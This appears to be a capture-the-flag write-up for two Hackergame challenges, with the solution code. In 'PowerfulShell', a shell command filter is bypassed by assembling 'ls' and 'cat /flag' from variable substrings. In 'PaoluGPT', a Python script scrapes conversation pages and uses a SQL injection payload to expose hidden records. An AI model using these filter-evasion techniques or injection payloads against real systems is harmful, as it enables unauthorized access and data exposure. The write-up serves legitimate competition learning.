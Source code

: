 ## PowerfulShell

```shell
PowerfulShell@hackergame> _1=~ # /players
PowerfulShell@hackergame> _2=${_1:2:1}${_1:7:1} # ls
PowerfulShell@hackergame> _3=${_1::1} # / 
PowerfulShell@hackergame> _8=`$_2 $_3` # result of `ls /`
PowerfulShell@hackergame> _7=${_8:17:4} # flag
PowerfulShell@hackergame> _6=${_8:15:1}${_8:19:1}${_8:7:1} # cat
PowerfulShell@hackergame> $_6 $_3$_7 # cat /flag
flag{N0w_I_Adm1t_ur_tru1y_5He11_m4ster_da95bf98fc}
```

Just piecing it together. At first I didn’t know `$_2 $_3` would evaluate—luckily I guessed right :）））

## PaoluGPT

Simple SQL injection

```python
import requests
import tqdm
from urllib.parse import quote

token = ""
encoded_token = quote(token)

START_URL = "https://chal01-manager.hack-challenge.lug.ustc.edu.cn:8443/docker-manager/start?" + encoded_token
LIST_URL = "https://chal01-4rpssnu9.hack-challenge.lug.ustc.edu.cn:8443/list"

session = requests.Session()
init = session.get(START_URL)
chat_list = session.get(LIST_URL).text
chat_lists = chat_list.split("\n<li>")[1:]

# Challenge 1
for lines in tqdm.tqdm(chat_lists):
    if "/view?conversation_id=" in lines:
        conversation_id = lines.split("/view?conversation_id=")[1][:len('48e475ff-9234-4da6-97b2-6dfec81e757e')]
        view_url = f"https://chal01-4rpssnu9.hack-challenge.lug.ustc.edu.cn:8443/view?conversation_id={conversation_id}"
        view = session.get(view_url).text.replace("\n", "")
        if "flag" in view:
            print(conversation_id)
            print(view)
            break
# flag{zU1_xiA0_de_11m_Pa0lule!!!_73a5cee3f9}

# Challenge 2
view_url = f"https://chal01-4rpssnu9.hack-challenge.lug.ustc.edu.cn:8443/view?conversation_id=-1'or shown=false--'"
view = session.get(view_url).text.replace("\n", "")
print(view)
# flag{enJ0y_y0uR_Sq1_&_1_would_xiaZHOU_hUI_guo_657f7eaad1}
```
